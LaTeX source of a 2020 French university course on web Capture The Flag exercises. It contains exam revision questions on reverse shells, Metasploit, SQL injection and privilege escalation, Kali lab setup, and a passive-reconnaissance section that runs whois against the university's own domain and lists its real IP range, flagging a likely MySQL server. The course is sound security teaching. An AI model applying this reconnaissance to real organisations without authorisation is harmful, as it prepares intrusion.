    {ç}{{\c c}}1 {Ç}{{\c C}}1 {ø}{{\o}}1 {å}{{\r a}}1 {Å}{{\r A}}1
    {€}{{\EUR}}1 {£}{{\pounds}}1
    {’}{\textquoteright}1 {ʹ}{\textquoteright}1
}    
%    {^}{{{\color{ipython_purple}\^{}}}}1
%    {=}{{{\color{ipython_purple}=}}}1
%    {+}{{{\color{ipython_purple}+}}}1
%    {*}{{{\color{ipython_purple}$^\ast$}}}1
%    {/}{{{\color{ipython_purple}/}}}1
%    {+=}{{{+=}}}1
%    {-=}{{{-=}}}1
%    {*=}{{{$^\ast$=}}}1
%    {/=}{{{/=}}}1
%    *{-}{{{\color{ipython_purple}-}}}1
%     {?}{{{\color{ipython_purple}?}}}1

\newcommand{\setlstipython}{
  \lstset{
    identifierstyle=\color{black}\ttfamily,
    commentstyle=\color{ipython_cyan}\ttfamily,
    stringstyle=\color{ipython_red}\ttfamily,
    keepspaces=true,
    showspaces=false,
    showstringspaces=false,
    language=iPython,
    rulecolor=\color{ipython_frame},
    frame=single,
    frameround={t}{t}{t}{t},
    framexleftmargin=6mm,
    numbers=left,
    numberstyle=\tiny\color{halfgray},
    %
    %
    backgroundcolor=\color{ipython_bg},
    %   extendedchars=true,
    basicstyle=\scriptsize,
    keywordstyle=\color{ipython_green}\ttfamily
  }
}
\setlstbash % Insert the commands.tex file which contains the majority of the structure behind the template
\usepackage{pdfpages}
\usepackage{adjustbox}
\usepackage{textcomp}

\usepackage[backend=biber,citestyle=numeric,sorting=none]{biblatex} % style=alphabetic,
\defbibheading{bibempty}{}
\addbibresource{references.bib}


\begin{document}
%----------------------------------------------------------------------------------------
%	TITLE PAGE
%----------------------------------------------------------------------------------------

\includepdf{oui/title.pdf}

%\begingroup
%\thispagestyle{empty} % Suppress headers and footers on the title page
%\begin{center}

%
\includegraphics[width=0.6\textwidth]{oui/logo_uvsq.jpg}\\[1cm]

%{\large 2ème année DUT Réseaux et Télécoms}\\[0.5cm]

%{\large Cours CTF}\\[0.5cm]

% Title
%\rule{\linewidth}{0.5mm} \\[0.4cm]
%{ \huge \bfseries Cours CTF \\[0.4cm] }
%\rule{\linewidth}{0.5mm} \\[1.5cm]

% Author and supervisor
%\noindent
%\begin{minipage}{0.4\textwidth}
%  \begin{flushleft} \large
%    \emph{Auteurs :}\\
%    M. Olivier \textsc{Vincent}\\
%    M. Matthieu \textsc{Gouyen}\\
%    M. Douglas \textsc{Belpaume}\\
%    M. Erwan \textsc{Crand}\\
%    M. Laurent \textsc{Salespara}\\
%  \end{flushleft}
%\end{minipage}%
%\begin{minipage}{0.4\textwidth}
%  \begin{flushright} \large
%    \emph{Encadrants :} \\
%    M. Guillemin\\
%    M. Chevallier
%  \end{flushright}
%\end{minipage}

%\vfill

% Bottom of the page
%{\large Version 1 du\\ \today}

%\end{center}
%\endgroup

%----------------------------------------------------------------------------------------
%	COPYRIGHT PAGE
%----------------------------------------------------------------------------------------

\newpage
~\vfill
\thispagestyle{empty}

\noindent Copyright \copyright\ 2020 Vincent, Gouyen, Belpaume, Crand, Salespara, Chevallier, Guillemin\\ % Copyright notice

%\noindent \textsc{Published by Publisher}\\ % Publisher

%\noindent \textsc{book-website.com}\\ % URL

\noindent Licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License (the ``License''). You may not use this file except in compliance with the License. You may obtain a copy of the License at \url{http://creativecommons.org/licenses/by-nc/3.0}. Unless required by applicable law or agreed to in writing, software distributed under the License is distributed on an \textsc{``as is'' basis, without warranties or conditions of any kind}, either express or implied. See the License for the specific language governing permissions and limitations under the License.\\ % License information, replace this with your own license (if any)

%\noindent \textit{First printing, March 2019} % Printing/edition date

%----------------------------------------------------------------------------------------
%	Preambule
%----------------------------------------------------------------------------------------

\includepdf[page=-]{oui/pream.pdf}


%----------------------------------------------------------------------------------------
%	TABLE OF CONTENTS
%----------------------------------------------------------------------------------------
%\usechapterimagefalse
%\chapterimage{chapter_head_1.pdf} % Table of contents heading image
\chapterimage{oui/images/illustrations/chap_flagsa.jpg}

\pagestyle{empty} % Disable headers and footers for the following pages

\tableofcontents % Print the table of contents itself

\cleardoublepage % Forces the first chapter to start on an odd page so it's on the right side of the book

\pagestyle{fancy} % Enable headers and footers again

\part{Première partie}

%\chapterimage{chapter_head_2.pdf} % Chapter heading image
\chapterimage{oui/images/illustrations/chap_cablea.jpg}
\chapter{Compétences pour le DS}

\vspace{-1.1cm}

\noindent Afin de vous aider à préparer le DS sur le module CTF, nous allons vous proposer de focaliser vos révisions sur plusieurs concepts que l'on va énoncer ici.

\begin{itemize}
    \item \textbf{Définir un CTF}
    \item \textbf{La règle de l'ethical hacking}
    \item \textbf{Les deux types de collecte d'informations et leurs différences}
    \item \textbf{Citez les deux principales choses à faire en début de CTF}
    \item \textbf{Donner les étapes du 3-way Handshake}
    \item \textbf{Expliquer le principe du spoof}
    \item \textbf{A part le spoof donner un moyen de se faire discret sur le réseau pour Nmap et Nikto par exemple}
    \item \textbf{Donner la différence entre une attaque par dictionnaire et par bruteforce}
    \item \textbf{Quel est le principal inconvénient de faire soi-même un dictionnaire aléatoire ?}
    \item \textbf{Donner une raison de faire un DOS et expliquer l'une de ses attaques}
    \item \textbf{Donner le principal avantage des cookies et son inconvénient}
    \item \textbf{Donner le risque d'une faille XSS}
    \item \textbf{Rappeler la structure d'une base de données}
    \item \textbf{Quel outil permet d'exploiter une faille SQL et que faut-il faire afin d'éviter cette faille ?}
    \item \textbf{Quel est l'intérêt de Burpsuite contre un formulaire ou un upload ?}
    %Fait une ou deux questions Metasploit ici 
    \item \textbf{Quelle est la principale force de Metasploit ?}
    \item \textbf{Décrire brièvement l'architecture modulaire de Metasploit}
    \item \textbf{Quel est l'intérêt d'avoir une architecture modulaire (Metasploit)?}
    \item \textbf{Quelles sont les différences entre un reverse shell "classique" et un reverse shell avec Meterpreter?}
    \item \textbf{Quelles sont les différences entre un stageless et un staged payload? (Meterpreter)}
    \item \textbf{Qu'est ce qu'un exploit/payload/Encoders ?}
    \item \textbf{Si vous aviez un mot de passe hashé à tester, quel outil utiliseriez-vous ?}
    \item \textbf{Donner l'utilité de l'outil Steghide}
    \item \textbf{Expliquer ce qu'est un reverse-shell ainsi que son fonctionnement}
    \item \textbf{Donner une méthode pour devenir administrateur d'une machine et l'expliquer}
\end{itemize}

\chapterimage{oui/images/illustrations/chap_flagsc.jpg}
\chapter{Planning}

\vspace{-1cm}
\noindent --- \textbf{2 CM total : 3H45}\\
\noindent --- \textbf{3 TP de 3h}

\textbf{Notation} : $\dfrac{Note_{DS}+Note_{TP}}{2}$

\vspace{1cm}

\subsection*{Première séance CM}

\noindent Présentation de la « zone de travail », généralisation des attaques WEB, présentation du principe d'attaque pour les CTF WEB, collecte d'informations.

\subsection*{Deuxième séance CM}

\noindent Présentation des failles, des outils d'exploitation, infiltration par reverse-shell.

\chapterimage{oui/images/illustrations/chap_cableb.jpg}
\chapter{Introduction}


La sécurité informatique au sein d’une entreprise est aujourd'hui devenue le domaine avec le plus grand enjeu. Il faut donc du personnel spécialisé dans ce dernier afin de la mettre en place. On se rend facilement compte que le meilleur moyen de s’améliorer dans ce milieu est dans un premier temps de se documenter puis de réaliser des attaques pour savoir par la suite comment s'en défendre. C’est à ce moment-là que le "Capture The Flag" ou bien "Capturer Le Drapeau" intervient. A l’origine, un CTF est un jeu à l’air libre où deux équipes s’affrontent pour s’emparer du drapeau de l’adversaire. On peut alors s’apercevoir que le monde informatique est semblable à celui réel. Un CTF est alors un concept ayant pour but d’infiltrer une machine cible et de trouver un document, le "flag". Le CTF s’est démocratisé en 1996 lors des premières compétitions organisées par la DEF CON. La DEF CON est la convention de hackeur la plus connue du monde. \\
Les CTF s’inspirent de la vraie vie même si cela reste un terrain d'entraînement. Les CTF reposent sur plusieurs domaines qui sont : le reverse engineering, l’exploitation web, le forensic, le réseau, la cryptographie, la sécurité mobile, la stéganographie et d'autres encore.
Tous ces domaines sont les piliers de la sécurité informatique. Il faudra donc être polyvalent afin d’exploiter les failles et de résoudre un CTF. Nous allons donc voir lors de ce cours les différents moyens de parvenir à nos fins.\\
Nous tenons à rappeler qu'il est strictement interdit de pratiquer de l'ethical hacking sur un réseau qui n'est pas le vôtre et où vous n'avez pas l'autorisation de réaliser une attaque. Ce cours a été créé dans un but éducatif et non malveillant.


\part{Deuxième partie}

\chapterimage{oui/images/illustrations/chap_flagsb.jpg}
\chapter{Le CTF}

\section{Définition}

Un CTF\footnote{CTF peut-être traduit en capture du drapeau.} ou "Capture The Flag" est une activité consistant à s'introduire dans une machine cible vulnérable pour y trouver un drapeau en guise de victoire. Les possibilités de CTF sont extrêmement vastes et ces dernières nécessitent des connaissances dans de multiples domaines. C'est pour cette raison que nous allons nous concentrer sur les CTFs "Web" afin de pouvoir exploiter complètement vos connaissances en sortie d'IUT R\&T. 

Avant de commencer à vous présenter des attaques bien précises, nous allons vous expliquer les différents angles d'attaques que nous pouvons retrouver généralement lors d'un CTF. En effet, il y a toujours un "protocole" à suivre lors de la réalisation d'une attaque qui va nous permettre de résoudre un CTF. Ce protocole se divise en trois grandes phases qui sont :
\begin{itemize}
    \item La collecte d'informations
    \item L'exploitation de ces informations via des failles
    \item L'intrusion dans le système cible avec possibilité de devenir administrateur\\
\end{itemize}

Chacune de ces phases contient des sous-phases en fontion des outils utilisés et donc des failles. Comme vous pouvez le voir sur le schéma indiqué dans la \textbf{figure \ref{fig:schema-ctf}}, une attaque est coupée en trois parties. La première qui se nomme "Recherche d'informations active". C'est une sous-catégorie de la recherche d'informations. En effet, au sein de ce schéma, on va considérer que la recherche d'informations passive a déjà été effectuée car elle n'est pas obligatoire. La deuxième phase nous présente les outils que nous utilisons en général pour utiliser les informations récupérées via la phase précédente et ainsi exploiter des failles. Ces trois outils sont les suivants : Burpsuite, SQLMAP et Metasploit. Burpsuite va être utilisé pour contourner des restrictions dans un formulaire via son proxy et ainsi permettre la création d'un reverse-shell par exemple. SQLMAP va nous permettre d'exploiter des failles SQL et ainsi dévoiler une base de données. Metasploit est quant à lui beaucoup plus complexe. En effet, l'ensemble d'un CTF pourrait être entièrement réalisé avec cet outil car il regroupe l'ensemble des outils de pentest ainsi que d'autres modules tel que Meterpreter. Le but de cette phase est donc d'obtenir directement un reverse-shell ou bien des informations qui pourraient être cryptées. C'est donc à partir de ce moment qu'il faudra choisir la branche adéquate pour réaliser son CTF.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Chapitre1/Attackdiag.png}
  \caption{Schéma d'attaque d'un CTF}
  \label{fig:schema-ctf}
\end{figure}

Comme on a pu le comprendre, aucune attaque n'est la même et c'est en pratiquant que l'on peut comprendre pourquoi utiliser un outil plutôt qu'un autre. Cependant, avant d'utiliser ces outils, nous allons nous pencher sur notre environnement de travail.

\section{Environnement de travail}

\subsection{Kali Linux}

Kali Linux est une distribution Linux, basée sur Debian, orientée sur la sécurité informatique. Anciennement BackTrack, cette distribution a su se réinventer en devenant Kali et ainsi regrouper un nombre « incalculable » de logiciels conçus pour la sécurité et l’intrusion informatique. C’est pour cette raison que nous avons choisi de travailler sur cette distribution afin d'effectuer des CTF.

\subsection{Mise en place d'un CTF}

Pour commencer un CTF, il nous faut aller chercher une machine virtuelle attaquable. Pour cela, nous pouvons aller sur le site de Vulnhub et récupérer un fichier avec l’extension .OVA. Vulnhub est un site répertoriant des CTFs créés par la communauté. Il est donc très facile de s'exercer via ce site.\\
Ce fichier OVA contient notre machine cible que l’on pourra allumer sous Virtualbox comme vu en \textbf{figure \ref{fig:import-ova}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.77\textwidth]{oui/images/Chapitre1/importation.png}
  \caption{Imporation d'un CTF}
  \label{fig:import-ova}
\end{figure}

Après avoir réalisé cette étape, vous pourrez aller vous occuper des interfaces réseaux de votre Kali et de votre CTF afin qu'il puisse communiquer entre eux. En général, le CTF sera configuré en dhcp ce qui vous permettra d'utiliser le réseau NAT ou bien le mode Pont/Bridge. Pour rappel, le réseau NAT sous Virtualbox créé un routeur et un service DHCP entre votre ordinateur et votre machine virtuelle. Ainsi, cette dernière a accès à internet et à son propre réseau. Le mode Pont va vous permettre d'annoncer votre machine virtuelle comme machine à part entière sur votre réseau. Ainsi, la VM pourra communiquer sur votre réseau et obtenir via DHCP une adresse si le service est activé sur le réseau. Dans les deux cas, pensez à mettre votre machine attaquante et cible dans le même réseau. Une fois que cette configuration est faite, vous pourrez allumer vos machines et commencer votre attaque tout en respectant l'ordre d'attaque.
\chapterimage{oui/images/illustrations/chap_keyboarda.jpg}
\chapter{Techniques de collecte d'informations}
\label{chap:Mini Projet}
Lors du début de chaque CTF ou de pentesting en général, il y a une phase très importante qu'il ne faut pas oublier qui est la recherche d'informations sur la machine à attaquer. Il existe 2 types de recherche d'informations :

\begin{itemize}
  \item Collecte d'informations passive
  \item Collecte d'informations active 
\end{itemize}

 Nous verrons dans un premier temps la collecte d'informations passive d'une cible puis la collecte d'informations active.

\section{Collecte d'informations passive}

La collecte d'informations passive est le moyen par lequel un attaquant peut récupérer des informations sur une entreprise ou une machine, sans entrer directement en contact avec cette dernière. En effet, ces informations sont la plupart du temps trouvable sur internet.

Par exemple, à partir de recherches sur internet, on peut trouver des adresses IP ou encore des emails ou des noms de domaines. Toutes ces informations peuvent être d'ordre publique. Une simple commande \lstinline{ping} sur un site internet permet de récupérer une adresse IP. Imaginez par exemple, une attaque contre \url{http://rt.iut-velizy.uvsq.fr/}. Il va falloir dans un premier temps déterminer quels systèmes sont utilisés par la société et quels sont les systèmes que nous pouvons attaquer. De plus, certains systèmes peuvent ne pas appartenir à la société cible et pourraient alors être considérés comme hors de portée de l'attaque.

\subsection{Whois}

Whois ("Qui est" en francais)  est un outil permettant d'interroger des bases d'informations (registres) concernant les noms de domaines et adresses IP. Les données contenues dans ces bases ne comportent aucune forme de garantie mais permettent généralement de retrouver le propriétaire d'un domaine ou d'une machine.

 Il existe plusieurs bases de données connues:

\begin{itemize}
    \item RIPE NCC (Réseaux IP Européens, whois.ripe.net) pour l'Europe
    \item APNIC (Asia Pacific Network Information Center) pour l'Asie et le Pacifique
    \item ARIN (American Registry for Internet Numbers, whois.arin.net) pour l'Amérique du Nord et l'Afrique Sub-Saharienne
    \item LACNIC (Regional Latin-American and Caribbean IP Address Registry, whois.lacnic.net) pour l'Amérique latine et les Caraïbes
    \item  INTERNIC (whois.internic.net) pour les autres parties du globe
\end{itemize}

 Il existe des sites sur internet permettant d'utiliser cet outil. Il est également présent sous Kali linux.\\

 \textbf{Utilisation de la commande whois avec Kali linux:}\\
Nous allons utiliser whois sur le site \url{uvsq.fr} dans \textbf{figure \ref{fig:whois}}.\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Whois/whois2.PNG}
  \caption{whois uvsq.fr}
  \label{fig:whois}
\end{figure}

 La commande whois nous donne des informations sur le nom de domaine \url{uvsq.fr}. On apprend ici les différents serveurs DNS qui gèrent ce domaine dans la  \textbf{figure \ref{fig:whoisdns}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Whois/whois3.PNG}
  \caption{whois uvsq.fr}
  \label{fig:whoisdns}
\end{figure}

 Whois est capable de récupérer l'email de l'administateur qui gère le domaine \url{uvsq.fr}. Ces informations peuvent être plus ou moins utiles lors d'une attaque.

Il est également possible de spécifier l'adresse IP de \url{www.uvsq.fr} pour récupérer des informations relatives à l'adresse IP comme vous pouvez voir en \textbf{figure \ref{fig:whoisip}}.

\begin{figure}[b!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/images/Whois/whois4.PNG}
  \caption{whois ip www.uvsq.fr}
  \label{fig:whoisip}
\end{figure}
%parler du champ inetnum et qu'on a la range d'IP pour uvsq.fr https://www.apnic.net/manage-ip/using-whois/guide/inetnum/ https://www.ripe.net/manage-ips-and-asns/db/support/documentation/ripe-database-documentation/rpsl-object-types/4-2-descriptions-of-primary-objects/4-2-4-description-of-the-inetnum-object
 --- Le champ \textbf{inetnum} correspond à une plage d'adresse IP détenue par le domaine en question. Par exemple, pour le domaine \url{uvsq.fr} sa plage d'IP sera comprise entre \textbf{193.51.33.0} et \textbf{193.51.33.255}.\\

Un simple script en python permet de vérifer cela et d'obtenir un résultat visible en \textbf{figure \ref{fig:resultatprogpy}}.  (Script en annexe \ref{fig:nslookup})

\begin{figure}[b!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/images/Whois/script-python.PNG}
  \caption{Résolution DNS pour la plage d'ip de uvsq.com}
  \label{fig:resultatprogpy}
\end{figure}

 On constate à travers cette capture que les IP de la plage pointent vers le nom de domaine \url{uvsq.fr}. Cela peut être très utile pour cibler des services à attaquer avec leur IP public. Par exemple, l'IP \textbf{193.51.33.3} semble correspondre à un potentiel serveur mysql à en croire son nom. On remarque également que l'autorité de \textbf{uvsq.com} a créé un alias de l'enregistrement \textbf{www} vers \textbf{preprod.uvsq.com}, puisque ces noms ont les même IP et qu'ils redirigent tous deux vers le site internet de l'uvsq.\\

